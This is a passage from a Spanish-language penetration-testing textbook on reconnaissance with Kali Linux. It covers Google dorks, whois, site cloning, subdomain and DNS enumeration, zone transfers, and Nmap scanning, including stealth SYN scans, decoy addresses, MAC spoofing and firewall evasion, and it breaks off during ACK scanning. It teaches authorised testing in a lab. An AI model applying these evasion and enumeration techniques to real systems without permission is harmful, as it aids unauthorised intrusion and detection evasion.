En nuestro ejemplo, buscamos herramientas de pruebas de penetración. Al mismo tiempo, le indicamos al algoritmo de búsqueda de Google que no muestre ningún resultado que contenga la palabra kali. Además, podemos usar la sintaxis keyword "<string of text here>"  para ver los resultados que sí contienen la palabra clave.

La siguiente tabla es una breve lista de operadores de búsqueda de Google, también conocidos como **Google dorks**, que pueden ayudarte a encontrar información confidencial en Internet:



Además, el equipo de Offensive Security (www.offensive-security.com) mantiene la base de datos de exploits (www.exploit-db.com), que tiene una sección dedicada conocida como **Google Hacking Database** [**GHD**](https://www.exploit-db.com/google-hacking-database). La GHD es actualizada constantemente por los miembros de la comunidad y contiene parámetros de búsqueda en muchas categorías, como se muestra en la imagen:



Cada parámetro de búsqueda se puede copiar y pegar en la Búsqueda de Google, y los resultados se mostrarán en consecuencia. Cada entrada dentro de GHD contiene una breve descripción del operador de búsqueda.

El siguiente es un parámetro de búsqueda que se utiliza para descubrir Cisco **Adaptive Security Appliance** (**ASA**), que tiene una página de inicio de sesión disponible públicamente:



Esta información tan sensible y estos directorios ocultos pueden ser el terreno de juego de un pirata informático; de manera similar, para un evaluador de penetración, es una mina de oro que espera ser explotada.

Hemos finalizado nuestro análisis sobre el hackeo de Google. En la siguiente sección, analizaremos cómo copiar sitios web de forma local con Kali Linux.


## Aprovechar Whois y copiar sitios web con HTTrack

En esta sección, analizaremos dos recursos en particular. Usaremos Whois para ayudarnos a recopilar información de contacto de un registrador de dominios para un dominio de destino y usaremos **HTTrack** para copiar un sitio web localmente.

Vamos a sumergirnos en las funciones de Whois y cómo puede resultarnos beneficioso.


### whois

Whois es una base de datos que guarda un registro de la información de registro de todos los dominios registrados. A continuación, se incluye una breve lista de algunos tipos de información que se almacenan habitualmente para los registros públicos:

- Información de contacto del registrante
- Información de contacto administrativa
- Información de contacto técnico
- Servidores de nombres
- Fechas importantes, como fechas de registro, actualización y vencimiento.
- ID de dominio de registro
- Información del registrador

Acceder a una base de datos whois es bastante sencillo: puedes utilizar el motor de búsqueda de Google para encontrar varias bases de datos. Algunos sitios web whois incluyen www.whois.net, whois.domaintools.com, who.is y www.whois.com . Sin embargo, Kali Linux contiene una herramienta whois incorporada. Para realizar una whoisbúsqueda en un dominio, sigue estos pasos:

1. Abra la Terminal y utiliza la whois <domain-name>sintaxis como se muestra en la siguiente captura de pantalla:



1. El resultado se presenta en la terminal del dominio. La información obtenida puede ser utilizada por un evaluador de penetración para distintos tipos de ataques a una organización objetivo.

En la siguiente sección, aprenderá cómo usar HTTrack para copiar un sitio web localmente.

### HTTrack

HTTrack ( www.httrack.com ) nos permite ver un sitio web completo sin conexión. Para ello, crea una copia clonada de un sitio web en línea y la almacena localmente en nuestro equipo. Para utilizar HTTrack, simplemente abra una nueva ventana de Terminal y realice los siguientes pasos:

1. Ejecuta el comando `httrack` para invocar el asistente interactivo.
2. Introduzca un nombre para el proyecto.
3. Establezca la ruta de destino para almacenar la copia sin conexión del sitio web de destino. Al presionar *Enter* se utilizarán los valores predeterminados entre corchetes.
4. Especifique la URL.
5. Elija una acción apropiada
6. Confirme los detalles e inicie HTTrack para reflejar el sitio web.

A continuación se muestra una captura de pantalla que indica los pasos que acabamos de describir:



Clonar un sitio web puede ser muy útil, ya que te permitirá descubrir y acceder a recursos y archivos ocultos a los que no se podía acceder a través de la versión en línea. Como evaluador de penetración, puedes explorar cada directorio sin conexión a fondo; normalmente, los webmasters no suelen realizar siempre una limpieza de datos y archivos antiguos, por lo que habrá mucho que explorar.

Una vez que haya completado esta sección, tendrá los conocimientos necesarios para copiar un sitio web de destino en su máquina Kali Linux. En la siguiente sección, intentaremos recuperar subdominios para un dominio de destino.


## Encontrar subdominios usando Sublist3r

Como usuario de Internet, se habrá dado cuenta de que varios motores de búsqueda como MSN, Google, Yahoo y Bing aprenden e indexan con frecuencia sitios web nuevos y existentes para mejorar sus resultados de búsqueda. Si busca el sitio web de una empresa, lo más probable es que descubra el nombre de dominio principal, como company.com. Sin embargo, muchas organizaciones crean subdominios por diversas razones. Como evaluadores de penetración, nos gustaría descubrir todos los subdominios posibles de una organización objetivo, ya que pueden conducir a portales de inicio de sesión y directorios corporativos confidenciales, que pueden contener archivos y recursos confidenciales.

Podemos aprovechar el poder de los motores de búsqueda para esta tarea utilizando la herramienta **Sublist3r** . Sublist3r es una herramienta basada en Python que se utiliza para enumerar (extraer/obtener) los subdominios de un sitio web determinado utilizando OSINT, como los motores de búsqueda y otras plataformas de indexación de Internet.

La herramienta Sublist3r no está instalada de forma nativa en Kali Linux, por lo que necesitaremos descargarla de su repositorio de GitHub.

Para comenzar, ejecute los siguientes pasos:

1. Abra la terminal en su máquina Kali Linux y ejecute el siguiente comando:

```markup
git clone https://github.com/aboul3la/Sublist3r.git 
```

1. Una vez completado el proceso de clonación, cambie el directorio a la Sublist3rcarpeta usando el comando ``cd Sublist3r``.

1. En este punto, podemos utilizar la herramienta Sublist3r para buscar los subdominios de un dominio de destino (empresa) mediante el comando ``python sublist3r.py –d domain-name``. La captura de pantalla de la izquierda muestra la invocación exitosa de la herramienta, mientras que la captura de pantalla de la derecha muestra los resultados que se completan en la Terminal:



El uso de esta herramienta puede ahorrarnos mucho tiempo que de otro modo habríamos dedicado a buscar manualmente en Internet.

Ahora ha aprendido cómo descubrir de manera eficiente subdominios para un sitio web de destino utilizando la herramienta Sublist3r en Kali Linux.


## Resumen

En este capítulo, hemos analizado la importancia de realizar un reconocimiento antes de atacar un objetivo. La información recopilada durante esta fase es vital para las fases posteriores de las pruebas de penetración. La recopilación de información ayuda a crear las bases para la investigación que realiza el evaluador de penetración sobre las vulnerabilidades de seguridad de un objetivo, lo que es necesario para la explotación del sistema y la red.

Describimos las diferencias entre reconocimiento y toma de huellas, y también analizamos cómo utilizar varias herramientas OSINT para obtener información sobre varios objetivos.

En el próximo capítulo, *Recopilación activa de información*, cubriremos más temas sobre la recopilación de información.


## Preguntas

1. ¿Cuál es el propósito de la huella de carbono?
2. ¿Qué herramientas OSINT se pueden utilizar para recopilar información?
3. Usando la Búsqueda de Google, ¿cómo puedo ver los resultados de un dominio en particular?
4. Nombre una fuente en línea confiable para investigar exploits.
5. Estás interesado en recopilar información de registro de dominio de una empresa objetivo. ¿Qué recursos utilizarías?
6. ¿Cómo puedes descubrir los subdominios del sitio web de una empresa?


## Otras lecturas

- **Recopilación de información de aplicaciones web**: https://hub.packtpub.com/web-application-information-gathering/
- **Inteligencia de fuentes abiertas**: https://hub.packtpub.com/open-source-intelligence/


# Recopilación activa de información

La recopilación activa de información puede utilizarse para proporcionar resultados muy útiles durante la fase de reconocimiento de una prueba de penetración. Con este enfoque activo, el evaluador de penetración establece una conexión directa con el objetivo real para recopilar detalles específicos que **la inteligencia de fuentes abiertas** (**OSINT**) no puede proporcionar. 

**Mediante la recopilación activa de información, el evaluador de penetración puede crear un perfil muy detallado del objetivo, recopilando información como el tipo de sistema operativo y los servicios en ejecución. Esta información ayuda a investigar e identificar vulnerabilidades en relación con el objetivo, lo que reduce el alcance a la hora de elegir exploits específicos para desencadenar en su contra.**

En este capítulo, nos centraremos en interactuar directamente con el objetivo para recopilar detalles específicos sobre él que nos ayuden a perfilar los servicios en ejecución. Comprender cómo realizar un reconocimiento activo nos brindará una asistencia vital para la fase de explotación. Durante la fase de recopilación de información, podrá identificar vulnerabilidades y determinar exploits adecuados para entrar en un sistema y una red. También podrás recuperar información confidencial de los dispositivos y sistemas de red.

A lo largo de este capítulo cubriremos los siguientes temas:

- Comprender la recopilación activa de información
- Interrogación DNS
- Scanning
- Nmap
- Hping3
-  SMB, enumeración LDAP y sesiones null
- Huellas web y enumeración con EyeWitness
- Módulos auxiliares de Metasploit


## Requerimientos técnicos

Los siguientes son los requisitos técnicos para este capítulo:

- Kali Linux: www.kali.org
- Wireshark: www.wireshark.org
- JXplorer: https://github.com/pegacat/jxplorer
- EyeWitness:: https://github.com/FortyNorthSecurity/EyeWitness


## Comprender la recopilación activa de información

La recopilación activa de información utiliza un enfoque directo para interactuar con nuestro objetivo; implica establecer una conexión entre nuestra máquina y la red y los sistemas de destino. Al realizar una recopilación activa de información, podemos recopilar datos específicos y detallados, como hosts activos, servicios en ejecución y versiones de aplicaciones, recursos compartidos de archivos de red e información de cuentas de usuario.

La recopilación activa de información supone un riesgo de detección.

Determinar los hosts activos nos dará una idea de la cantidad de dispositivos que están en línea. No tiene sentido apuntar a un dispositivo fuera de línea, ya que no respondería. Conocer el sistema operativo y los servicios en ejecución en un objetivo nos ayuda a comprender el rol de ese dispositivo en la red y los recursos que proporciona a sus clientes.

Por ejemplo, si encontramos muchos recursos compartidos de archivos en el sistema de destino durante la recopilación de información activa, esto podría significar que el objetivo puede ser un servidor de archivos que tiene una gran cantidad de datos importantes en su unidad compartida. Al realizar la recopilación de información activa, la máquina atacante (en nuestro caso, una máquina basada en Kali Linux) envía consultas especiales a la víctima potencial con la esperanza de que la máquina víctima responda proporcionando algún tipo de información confidencial (como recursos compartidos de red y versiones de servicio) a cambio.

Ahora que comprendes mejor qué es la recopilación activa de información, profundicemos en sus prácticas en las siguientes secciones.


## Interrogación DNS

Como futuro profesional de la ciberseguridad, es muy importante comprender el propósito de las distintas aplicaciones y protocolos de red. En esta sección, nos centraremos en un protocolo en particular: **el Sistema de nombres de dominio** (**DNS**).

Comencemos por comprender mejor el papel del DNS y cómo podemos obtener información como evaluadores de penetración.

## ¿Qué es DNS y por qué lo necesitamos en una red?

El DNS es como una guía telefónica que contiene nombres, direcciones y números de teléfono. El DNS se utiliza en redes, tanto en las redes internas de las organizaciones como en las redes externas de Internet. El protocolo DNS se utiliza para convertir nombres de host (nombres de dominio) en direcciones IP.

Antes de que existiera el DNS, cada computadora contenía un archivo ``hosts`` ubicado en el directorio ``C:\Windows\System32\drivers\etc``. Este archivo debía actualizarse con frecuencia para garantizar que los usuarios pudieran acceder a varios sitios web o servidores especificando sus nombres de host o de dominio. Si el archivo ``hosts`` no estaba presente, el usuario debía especificar la dirección IP del servidor que deseaba visitar.

Todos los dispositivos de una red tienen una dirección IP asignada. Recordar todas las direcciones IP de cada servidor o sitio web que se desea visitar puede resultar bastante complicado. Si el archivo ``hosts`` no contiene los registros más actualizados de los nuevos servidores y sitios web, el usuario tendrá dificultades para llegar a su destino.

La siguiente captura de pantalla muestra las entradas actuales dentro del archivo ``hosts`` de un sistema operativo Windows:


*Registro de archivos de hosts de Windows*

El DNS nos ayuda a evitar depender del archivo ``hosts``. Muchas empresas de Internet populares, como Cisco, Google y Cloudflare, han establecido servidores DNS públicos que contienen registros de casi todos los nombres de dominio de Internet. Para explicarlo mejor, utilizamos un ejemplo sencillo que le ayudará a comprender cómo funciona el DNS.

Imagínate que desea visitar un sitio web, como www.example.com :

1. Siempre que una computadora o dispositivo necesita resolver un nombre de host a una dirección IP, envía un mensaje de consulta DNS a su servidor DNS, como se indica en el *Paso 1* de la siguiente captura de pantalla .
2. El servidor DNS verificará sus registros y responderá con una respuesta DNS proporcionando a la computadora cliente la dirección IP del dominio, como se muestra en el *Paso 2* de la siguiente captura de pantalla.

1. Finalmente, el cliente recibe la dirección IP y establece una sesión entre él y el dominio www.example.com, como se muestra en la siguiente imagen :



*Transacciones DNS*

Existen muchos servidores DNS públicos en Internet; algunos son maliciosos por naturaleza, capturan tu información DNS y te redirigen a sitios web y dominios dañinos. Por ello, recomiendo utilizar un proveedor de DNS de confianza en todos tus dispositivos de red y computadoras para mejorar tu seguridad en línea. A continuación, se muestran algunos servidores DNS populares en Internet:

- DNS de Cloudflare: https://1.1.1.1/
- DNS público de Google: https://developers.google.com/speed/public-dns/
- Cisco OpenDNS: https://www.opendns.com/

Además, los servidores DNS no solo resuelven un nombre de host en una dirección IP, sino que también contienen varios registros que se utilizan para distintos tipos de resolución.

Los siguientes son los diferentes tipos de registros:



*Tipos de registros DNS*

Un ejemplo del tipo de registro **A** sería asignar el nombre de host www.example.coma la dirección IPv4 93.184.216.34; el registro **AAAA** del mismo nombre de host contendría la dirección IPv6 2606:2800:220:1:248:1893:25c8:1946, y así sucesivamente.

La utilidad **nslookup** es una herramienta muy útil para validar información DNS. nslookup puede realizar varias tareas, como resolver cada tipo de registro DNS para un dominio determinado, y tiene la capacidad de consultar servidores DNS específicos.

**La enumeración de DNS** es la técnica de sondear registros DNS específicos para el dominio de una organización específica. En otras palabras, le preguntamos a un servidor DNS acerca de las direcciones IP y los nombres de servidor de una organización de destino. Además, intentamos realizar una transferencia de zona DNS. Una **transferencia de zona DNS** permitiría copiar el archivo de zona desde un servidor DNS maestro a otro servidor DNS, como un servidor DNS secundario.

Sin embargo, los administradores de servidores DNS a veces se olvidan de aplicar controles de seguridad para evitar la copia de archivos de zona a servidores no autorizados. Una transferencia de zona DNS exitosa puede llevar a que un evaluador de penetración obtenga el diseño de la red corporativa. En el peor de los casos (para una organización específica, claro está), una organización puede no separar los espacios de nombres internos y externos en sus servidores DNS. Tales configuraciones incorrectas pueden llevar a que alguien obtenga dicha información con fines maliciosos.

En los siguientes ejercicios, intentaremos extraer varios registros DNS para un dominio determinado:

- Enumeración de DNS
- Transferencia de zona DNS
- Uso de la hostutilidad para realizar análisis de DNS
- Interrogación de DNS mediante **Fierce**

¡Vamos a sumergirnos y divertirnos con DNS y Kali Linux!

## Realizar enumeración de DNS y transferencia de zona mediante dnsenum

dnsenum es una herramienta muy sencilla y fácil de usar para enumerar y resolver información DNS para un destino determinado. Además, tiene la capacidad de realizar transferencias de zona DNS automáticamente utilizando los detalles **del servidor de nombres**:

1. Abre una nueva ventana de terminal y ejecute el comando `dnsenum`. Aparecerá el menú Ayuda, que ofrece descripciones detalladas de varios operadores/parámetros y su uso.

1. Utiliza el comando ``dnsenum zonetransfer.me`` para realizar la enumeración DNS en el dominio zonetransfer.me, como se muestra en la siguiente captura de pantalla:



*dnsenum*

dnsenum intentará obtener todos los servidores y nombres de host del dominio indicado. Podemos obtener los servidores de nombres, servidores de correo (utilizados para el intercambio de correo electrónico) y direcciones IP de cada servidor y nombre de host encontrado.

1. dnsenum intentará realizar una transferencia de zona DNS consultando los servidores de nombres específicos encontrados durante el proceso de enumeración, como se muestra en la siguiente captura de pantalla:



*Transferencia de zona DNS*

Al igual que en el fragmento anterior, la herramienta dnsenum pudo extraer/replicar con éxito los **registros de la zona maestra** del servidor de nombres ``nsztml.digi.ninja``. Con la información encontrada, un evaluador de penetración tendrá una mejor perspectiva de los dispositivos de red internos y externos de la organización de destino zonetransfer.me.

El acceso a información sensible como la que hemos encontrado puede potencialmente conducir a una violación exitosa de la red de la organización objetivo.

A continuación, intentaremos realizar un análisis de DNS utilizando una herramienta nativa de Linux.

## Cómo utilizar la utilidad de host para realizar análisis de DNS

La utilidad host es nativa del sistema operativo Linux y puede ayudarnos a obtener diversa información DNS sobre un  dominio objetivo:

1. Abre una nueva terminal en Kali Linux y ejecuta el comando ``host zonetransfer.me``; la host intentará herramienta obtener los registros DNS, como los registros **A** y **MX**, para el dominio:



*Recuperación de registros DNS mediante el host*

1. Utiliza el comando ``host -t ns zonetransfer.me`` para intentar la enumeración obteniendo los servidores de nombres del dominio. El operador ``-t`` permite especificar el registro DNS:



*Registros de servidores de nombres*

1. Ahora que hemos obtenido los servidores de nombres para el dominio, usemos la información que hemos reunido hasta ahora. Intentemos realizar una transferencia de zona DNS consultando los servidores de nombres para el dominio mediante el comando ``host -l zonetransfer.me nsztml.digi.ninja``, como se muestra en la siguiente captura de pantalla:



*Transferencia de zona DNS con el host*

Asegúrate de consultar todos los servidores de nombres para un dominio determinado; a veces, un servidor puede estar mal configurado aunque los demás estén protegidos.

Ahora que tienes las habilidades para realizar enumeraciones de DNS y transferencias de zonas, intentemos descubrir subdominios usando DNS.

## Encontrar subdominios con dnsmap

**dnsmap** funciona de forma un poco diferente a las herramientas que analizamos en los ejemplos anteriores. dnsmap intenta enumerar los subdominios del nombre de dominio de una organización consultando una lista de palabras incorporada en el sistema operativo Kali Linux. Una vez que se encuentra un subdominio, dnsmap intentará resolver la dirección IP.

Usando el comando ``dnsmap microsoft.com`` , podemos encontrar subdominios para la organización y sus direcciones IP  correspondientes:



*Resultados de dnsmap*

Como se mencionó en una sección anterior, descubrir los subdominios de una organización puede llevar a encontrar portales y directorios ocultos y confidenciales en un dominio.

Como habrás notado, cada herramienta que hemos utilizado hasta ahora nos brinda un poco más de detalles. En la siguiente sección, utilizaremos una herramienta más agresiva para ayudarnos a extraer más detalles sobre un dominio de destino.

## Interrogación de DNS mediante Fierce

Fierce se considera una herramienta de interrogación de DNS semiligera. Realiza búsquedas exhaustivas de espacios de IP y nombres de host para un dominio de destino determinado. Para utilizar Fierce, podemos ejecutar el comando ``fierce -dns example.com``, como se muestra en la imagen:



*Interrogatorio DNS feroz*

Fierce intentará obtener todos los registros DNS de un dominio determinado y descubrirá los subdominios con sus direcciones IP correspondientes. Esta herramienta puede tardar un tiempo en completar su interrogación, ya que implementa un análisis profundo del dominio de destino.

Ya hemos completado los ejercicios de esta sección. A continuación, nos acercaremos directamente al objetivo para recopilar detalles más específicos mediante diversas técnicas de escaneo.


## Exploración

Llevemos nuestra fase de recopilación de información un poco más allá de lo que hemos hecho hasta ahora. En esta sección, vamos a realizar varios tipos de escaneo en un objetivo. Estos incluirán lo siguiente:

- Barrido de ping
- Detección de la versión del sistema operativo y del servicio
- Búsqueda de dispositivos host que tengan ICMP deshabilitado
- Realizar un escaneo oculto
- Escaneo de puertos UDP con Nmap
- Realización de técnicas de escaneo de evasión utilizando Nmap

El objetivo del escaneo es identificar hosts activos en una red, determinar puertos abiertos y cerrados en un sistema, identificar servicios en ejecución en un objetivo y crear un diagrama de red de la infraestructura de red del objetivo. La información obtenida durante la fase de escaneo de la red es clave para crear un perfil de una organización objetivo.

Escanear un objetivo sin permiso es ilegal en muchos países. Por este motivo, escanearemos dispositivos dentro de nuestro laboratorio.

Dentro de un paquete, hay muchos tipos de indicadores TCP que se utilizan durante la comunicación entre dos o más hosts en una red. Como evaluadores de penetración, podemos aprovechar ciertas vulnerabilidades dentro de la pila TCP/IP mientras realizamos nuestros análisis de red. En otras palabras, vamos a enviar indicadores especialmente diseñados a un objetivo para determinar su estado de puerto, sistema operativo, los servicios que se están ejecutando y sus versiones; también determinaremos si un firewall está monitoreando el tráfico entrante o saliente, etc.

Los siguientes indicadores TCP están dentro de un paquete:

- URG: (**Urgente**) Indica que este paquete debe procesarse inmediatamente
- PSH: (**Push**) Envía datos almacenados en búfer inmediatamente
- FIN: (**Finalizar**) Indica que no hay más transmisiones para enviar
- ACK: (**Acusación**) Confirma la recepción de un mensaje.
- RST: (**Restablecer**) Restablece una conexión de red
- SYN: (**Sincronización**) Se utiliza para inicializar una conexión entre dispositivos host

Al utilizar una herramienta como Wireshark (www.wireshark.org), puedes observar cada detalle dentro de los paquetes en una red.

El siguiente fragmento es una captura de un paquete de red donde está establecida la bandera ACK:



*Un paquete con el indicador ACK habilitado*

Además, al observar los detalles del paquete, puedes ver las direcciones MAC de origen y destino, las direcciones IP, los puertos y otras características importantes. Wireshark está considerado como uno de los mejores analizadores y rastreadores de protocolos de red entre los profesionales de redes y ciberseguridad.

Ahora que entendemos la importancia del escaneo, aprendamos sobre una de las herramientas de escaneo más populares en la industria, Nmap.


## Nmap

Nmap es gratuito y es una de las herramientas de escaneo de redes más potentes disponibles para plataformas Windows y Linux. Nmap puede ayudar tanto a los administradores de red como a los profesionales de la ciberseguridad de muchas maneras.

Las características de Nmap incluyen las siguientes:

- Creación de un inventario de red
- Comprobando si hay hosts activos
- Determinación de sistemas operativos
- Determinar los servicios en ejecución y su versión
- Identificación de vulnerabilidades en un host
- Detección de rastreadores
- Cómo determinar si hay un firewall en una red

Repasaremos, para empezar, los conceptos básicos de Nmap y, poco a poco, iremos pasando a técnicas de escaneo avanzadas. Como testers de penetración, debemos asegurarnos de contar con un arsenal de herramientas que nos ayuden a realizar nuestro trabajo de forma eficiente. Sin embargo, como profesionales, también debemos asegurarnos de estar muy familiarizados con cada herramienta que tenemos a nuestra disposición y saber cómo utilizarla.

Entonces, comenzaremos realizando un escaneo básico en un objetivo:

1. Comencemos abriendo una nueva Terminal y usando la siguiente sintaxis: ``nmap <target IP or hostname>``.
2. Vamos a escanear un sitio web que nos ha dado permiso legal para realizar un escaneo. Usemos el comando ``nmap scanme.nmap.org``:



*Escaneo Nmap*

Al realizar un escaneo regular en un objetivo o red, Nmap verifica los 1.000 puertos TCP/IP más utilizados en el objetivo.

1. Al observar la salida, Nmap pudo identificar los puertos abiertos, determinar si los puertos abiertos son TCP o UDP, identificar los protocolos de la capa de aplicación y descubrir las direcciones IP (IPv4 e IPv6) del objetivo.

Identificar puertos abiertos en un objetivo es como descubrir una puerta abierta en el sistema, e identificar servicios puede ayudarnos a limitar nuestro alcance en la búsqueda y explotación de vulnerabilidades.

Para realizar un escaneo en una dirección IPv6, Puedes incluir el -6operador, como en: ``nmap -6 2600:3c01::f03c:91ff:fel8:bb2f``.

Nmap no es tan difícil, ¿verdad? En las próximas secciones, veremos algunos pasos más con Nmap.

## Realizar un barrido de ping con Nmap

En ocasiones, Puedes que necesites identificar todos los hosts activos en una red durante una prueba de penetración. Nmap puede realizar un barrido de ping en múltiples objetivos, ya sea especificando un rango o una subred completa. El uso del -snoperador te permitirá realizar un barrido de ping solo en el objetivo:



*Barrido de ping con Nmap*

En el fragmento anterior, Nmap presentó solo los hosts que cree que están activos en el segmento de red y pudo buscar las direcciones MAC de cada host para determinar el proveedor.

- Si desea realizar un escaneo de rango, Puedes utilizar la siguiente sintaxis: ``nmap start ip addr - end ip addr``.
- Si desea escanear dispositivos IP específicos en una red, utiliza la siguiente sintaxis: ``nmap host1 host2 host3``.
- Nmap también tiene soporte para escanear hosts que están listados dentro de un archivo de texto usando la siguiente sintaxis: ``nmap –iL file.txt``.

Ahora llevemos las cosas un paso más allá y aprendamos más sobre cómo usar Nmap en la siguiente sección.

## Obtención de versiones del sistema operativo y de servicios mediante Nmap

Hasta ahora, hemos podido recopilar detalles básicos sobre un objetivo. Podemos usar Nmap para ayudar a los usuarios a determinar el sistema operativo, la versión del sistema operativo y las versiones de servicio de cualquier aplicación que se esté ejecutando en un objetivo.

El uso del operador ``-A`` iniciará un escaneo agresivo, ``-O`` perfilará el sistema operativo y ``-sV`` identificará las versiones de servicio.

La realización de un tipo de análisis agresivo puede ser detectada por un **sistema de detección de intrusos** o **un sistema de prevención de intrusos** (**IDS**/**IPS**) o un dispositivo de firewall. Tenga cuidado con esto, ya que una gran parte de las pruebas de penetración consiste en ser lo más silencioso posible para evitar la detección.

Al utilizar el comando ``nmap -A -O -sV target`` en nuestra VM Metasploitable como nuestro sistema de destino, podremos obtener información mucho más significativa sobre el objetivo.

Como se puede ver en el siguiente fragmento, para cada puerto abierto, Nmap ha identificado un servicio particular que opera en el puerto y también pudimos recuperar los detalles de la versión del servicio de la aplicación:



*Sistema operativo y versión del servicio*

Desplazándonos un poco más hacia abajo en la salida, podemos ver que, al usar el parámetro ``-O``, Nmap pudo determinar el tipo de sistema operativo:



*Detectar la versión del kernel*

En este punto, tenemos una idea mucho mejor de nuestro objetivo, la máquina virtual Metasploitable. Conocemos todos los puertos abiertos, los servicios y las versiones de los servicios que se están ejecutando actualmente, así como el sistema operativo.

Nmap es genial, ¿no? Aprendamos a utilizar Nmap para escanear un dispositivo que tenga el ICMP deshabilitado.

## Escaneo de dispositivos host con ICMP deshabilitado

Cuando Nmap está a punto de realizar un escaneo en un host, envía un paquete ping al host para determinar si el objetivo está activo. Si el objetivo no responde, Nmap no intentará ejecutar el escaneo. Sin embargo, los profesionales de administración de sistemas y seguridad cibernética generalmente desactivan las respuestas **del Protocolo de mensajes de control de Internet** (**ICMP**) en los servidores. No recibir una respuesta de eco ICMP de un objetivo indicaría que el dispositivo objetivo está inactivo/fuera de línea; sin embargo, esta técnica se propone básicamente engañar a un hacker novato para que piense que el host simplemente no está disponible. El uso del operador –Pn durante un escaneo de Nmap omitirá la fase de descubrimiento del host y tratará al objetivo como si estuviera en línea.

Lo siguiente es un ejemplo:

```markup
nmap -Pn 10.10.10.100
```

Durante una prueba de penetración, si no puedes descubrir hosts activos en la red, no te preocupes demasiado, ya que los profesionales de seguridad de redes tienden a aplicar controles de seguridad a sus dispositivos finales y redes. Nmap puede detectar sistemas ocultos, eludiendo firewalls y rastreadores de red para detectar vulnerabilidades de seguridad en un host.

Al realizar un escaneo, existe una gran posibilidad de que el objetivo sepa que un atacante o un evaluador de penetración está realizando un escaneo de puertos. En la siguiente sección, describiremos cómo realizar un escaneo oculto con Nmap.

## Realizar un escaneo oculto usando Nmap

De forma predeterminada, Nmap establece un **protocolo de enlace de tres vías TCP** en cualquier puerto TCP abierto que encuentre. Una vez establecido el protocolo de enlace, se intercambian los mensajes. El siguiente fragmento muestra el proceso de protocolo de enlace, en el que **el Host A** desea comunicarse con **el Host B**:



*Protocolo de enlace de tres vías TCP*

Durante una prueba de penetración, debemos permanecer lo más ocultos posible en la red. Esto crea el efecto de un pirata informático real que intenta poner en peligro el sistema o la red sin ser detectado por los controles y sistemas de seguridad de la organización. Al establecer un protocolo de enlace de tres vías TCP con nuestros dispositivos objetivo, nos damos a conocer al objetivo.

Por lo tanto, vamos a realizar un escaneo oculto (semiabierto) utilizando Nmap. Un escaneo oculto no establece un protocolo de enlace TCP completo con el objetivo:

1. La máquina atacante engaña al objetivo enviando un paquete TCP SYN a un puerto particular del objetivo si el puerto está abierto en el objetivo.
2. Se devuelve un paquete TCP SYN/ACK a la máquina atacante.
3. Por último, el atacante envía un paquete TCP RST para restablecer el estado de conexión en el objetivo:



*Escaneo sigiloso*

En nuestro ejercicio, vamos a sondear el puerto 80 en nuestra máquina virtual Metasploitable mediante un escaneo oculto con Nmap. Si utilizamos el operador ``-sS`` para indicar un escaneo oculto y el operador ``-p`` escanea (sondea) un puerto en particular, podemos ejecutar el comando  ``nmap -sS -p 80 10.10.10.100`` en nuestra máquina Kali Linux:



*Un escaneo oculto usando Nmap*

Con Wireshark, podemos ver el flujo de paquetes entre nuestra máquina Kali Linux y el destino. El paquete número 18 indica que se envió un paquete [ SYN] a la máquina virtual Metasploitable, el paquete número 19 indica que se devolvió un paquete [ SYN, ACK] a la máquina Kali Linux y, por último, el paquete número 20 indica que nuestra máquina Kali Linux envió un paquete [ RST] para restablecer la conexión:



Detectado escaneo oculto en Wireshark

El resultado final es que pudimos probar con éxito un puerto determinado en un sistema de destino y no establecimos una sesión de red entre nuestra máquina y el destino.

Existen muchos servicios y protocolos que utilizan UDP como método de transporte preferido. Las aplicaciones UDP no responden a un escaneo de puerto típico de forma predeterminada. Siempre que se realiza un escaneo de red/puerto con Nmap, el motor de escaneo busca puertos TCP abiertos de forma predeterminada; esto significa que los puertos UDP suelen omitirse en los resultados. En la siguiente sección, veremos cómo realizar un escaneo de puerto UDP.

## Escaneo de puertos UDP con Nmap

Existen muchos protocolos de capa de aplicación que utilizan **el Protocolo de datagramas de usuario** (**UDP**) como protocolo de transporte preferido. El uso del -sUoperador indicará la necesidad de realizar un escaneo de puerto UDP en un objetivo determinado. Con el siguiente comando, podemos lograr esta tarea:

```markup
nmap -sU target
```

Ahora hemos adquirido las habilidades necesarias para realizar un escaneo UDP en un dispositivo o red de destino. En la siguiente sección, veremos cómo evadir dispositivos de seguridad y detectarlos mediante Nmap.

## Cómo evadir la detección con Nmap

Siempre que se envía un paquete de un dispositivo a otro, la dirección IP de origen se incluye en el encabezado del paquete. Este es el comportamiento predeterminado de la pila TCP/IP; todos los detalles de la dirección deben incluirse en todos los paquetes que deben atravesar una red. Al realizar un escaneo de red en un destino, nuestra dirección IP de origen se incluye en todos los paquetes que nuestra máquina, Kali Linux, envía al destino.

Nmap tiene la capacidad de usar señuelos para engañar al objetivo y hacerle creer que los escaneos de red se originan en múltiples fuentes en lugar de una única dirección IP de origen. El -Doperador va seguido de direcciones IP aleatorias, que son los señuelos. Supongamos que queremos escanear una dirección IP, 10.10.10.100, y establecemos tres señuelos: 10.10.10.14, 10.10.10.15, y 10.10.10.19. Podemos usar el siguiente comando:

```markup
nmap -sS 10.10.10.100 –D 10.10.10.14, 10.10.10.15, 10.10.10.19
```

Al observar la siguiente captura de Wireshark, podemos ver que los paquetes que contienen tanto nuestra dirección IP de origen como las direcciones IP de los señuelos se utilizaron durante el escaneo de puertos en nuestro destino:



Detección de señuelos en Wireshark

Sin embargo, se envía un paquete RST desde la dirección de origen real. Además, podemos utilizar otros operadores, como por ejemplo --spoof-macpara falsificar la dirección MAC de origen.

En la siguiente sección, aprenderemos cómo evadir la detección del firewall mientras realizamos un escaneo de red usando Nmap.

## Cómo evadir los cortafuegos con Nmap

Durante su carrera como profesional de ciberseguridad, evaluador de penetración o hacker ético, a menudo se encontrará con organizaciones (ya sean pequeñas, medianas o grandes empresas) que tienen algún tipo de dispositivo o software de firewall en su infraestructura de red.

Los firewalls pueden impedir los análisis de red y suponer un reto para nosotros como evaluadores de penetración. A continuación, se indican varios operadores que se pueden utilizar en Nmap para evadir los firewalls:



Operadores de evasión de firewall de Nmap

Además, podemos enviar sondas personalizadas con indicadores específicos a un objetivo y analizar las respuestas.

En las siguientes secciones, veremos cómo determinar si hay un firewall con estado presente en una red.

## Comprobación de un firewall con estado

Para comprobar si hay un firewall con estado, podemos enviar una sonda al objetivo con el indicador ACK habilitado. Si no se proporciona ninguna respuesta del objetivo, esto indicaría que hay un firewall:



*Firewall con estado presente*

Sin embargo, si se devuelve un paquete con el indicador RST establecido, esto indicaría que no hay ningún firewall en el sistema de destino:



El firewall con estado no está presente

Podemos usar el operador ``–sA`` en Nmap para realizar un escaneo ACK en un objetivo. Realicemos un escaneo en nuestra máquina virtual Metasploitable para determinar si el puerto 80 está abierto y si el sistema tiene un firewall presente:

